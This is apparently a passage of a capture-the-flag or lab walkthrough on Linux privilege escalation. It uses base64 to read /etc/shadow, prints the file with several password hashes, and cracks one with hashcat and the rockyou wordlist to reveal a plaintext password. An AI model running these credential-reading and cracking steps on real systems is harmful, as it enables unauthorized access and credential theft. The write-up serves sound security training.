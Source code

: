 ```bash
$ LFILE=/etc/shadow
$ base64 "$LFILE" | base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:18796::::::
ubuntu:!:18796:0:99999:7:::
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
```

Let's crack user2's hash:

```bash
joshua@kaligra:~$ hashcat -m 1800 '$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/' /usr/share/wordlists/rockyou.txt
..
..
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:Password1
..
..
```
